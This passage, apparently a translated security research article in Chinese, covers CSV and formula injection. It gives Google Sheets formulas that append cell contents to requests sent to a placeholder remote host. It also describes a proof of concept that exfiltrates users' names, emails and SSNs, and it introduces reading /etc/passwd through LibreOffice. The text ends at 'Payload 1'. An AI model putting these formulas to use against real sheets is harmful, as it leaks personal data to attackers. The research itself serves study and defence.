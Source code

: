 ```
= IMPORTFEED（CONCAT（“http：// [remote IP：Port] // 123.txt？v =”，CONCATENATE（A2：E2）））
```

IMPORTHTML：从HTML页面中的表或列表导入数据。

```
= IMPORTHTML（CONCAT（“http：// [remote IP：Port] /123.txt?v=”，CONCATENATE（A2：E2）），“table”，1）
```

IMPORTRANGE：从指定的电子表格导入一系列单元格。

```
=IMPORTRANGE（“https://docs.google.com/spreadsheets/d/[Sheet_Id]”，“sheet1！A2：E2”）
```

IMAGE：将图像插入单元格。

```
= IMAGE（“https：// [远程IP：端口] /images/srpr/logo3w.png”）
```



## 数据泄露

基于Google电子数据表功能的文档，上述功能可能成为带外数据泄露的成熟候选者。<br>
情况1 [失败]：我是个老实人，因此在这里包括了一些失败的PoC。失败是这个游戏的一部分，应该被认为是很好的学习材料。如果不是失败，成功永远不会尝到如此甜蜜😉<br>
Google提供创建表单和接收回复的功能，稍后可以使用谷歌表来访问。我们试图通过在相应Google表单的评论部分提交恶意公式来利用。但是，Google对提交的响应进行了完整性检查，并自动在公式前添加（’）撇号，阻止执行公式。

[![](https://p3.ssl.qhimg.com/t0167c6b772ac4d2f3a.png)](https://p3.ssl.qhimg.com/t0167c6b772ac4d2f3a.png)<br>
场景2 [成功]： Google工作表还提供了一些功能，允许我们从csv，tsv，xlsx等不同文件格式导入数据。导入的数据可以使用新电子表格表示，也可以附加到现有表单中。对于我们的PoC，我们会将其附加到包含前一场景响应的工作表中，以便我们可以提取其他用户提交的数据。幸运的是，Google没有像在场景1中那样执行相同的检查。使用了以下步骤。<br>
1）我们创建了一个带有负载（公式）的恶意csv文件，该文件将连接A到D列的数据。然后，我们通过这些细节为攻击者服务器生成一个`out of band`请求。

[![](https://p4.ssl.qhimg.com/t01b09fef7b21b87971.png)](https://p4.ssl.qhimg.com/t01b09fef7b21b87971.png)<br>
2）然后，我们使用导入功能将csv文件导入Google表格，并将数据附加到现有工作表中。

[![](https://p1.ssl.qhimg.com/t01aedf633f589d1160.png)](https://p1.ssl.qhimg.com/t01aedf633f589d1160.png)<br>
3）一旦导入数据，我们的有效载荷就会执行，我们就可以在HTTP服务器上收听用户的详细信息，例如姓名，电子邮件和SSN数据。

[![](https://p1.ssl.qhimg.com/t01c614b7216891615b.png)](https://p1.ssl.qhimg.com/t01c614b7216891615b.png)



## 在Linux环境中读取LibreOffice OS文件

本节重点介绍如何在Linux环境中利用CSV注入。许多博客已发布PoC和其他类似的工具，这些工具涉及利用`Excel`中的`DDE`，但很少涉及Linux环境中的办公应用程序。这是可以理解的，Linux桌面远不如Windows普及，并且我们知道，攻击总是会瞄准最广泛的，也是最赚钱的终端。<br>
在本文中，我们想介绍一些简单的，但非常有趣的公式攻击，可以在Linux目标上利用。<br>
有效载荷已在下列环境中成功测试：
- Ubuntu 16.04 LTS和LibreOffice 5.1.6.2
<li>Ubuntu 18.04 LTS和LibreOffice 6.0.3.2<br>
我们首先尝试使用我们的本地访问通过公式读取敏感文件。LibreOffice提供使用“文件”协议读取文件。初始的PoC从本地`/etc/passwd`文件中检索单个行，并在下面详细说明。</li>
Payload 1：
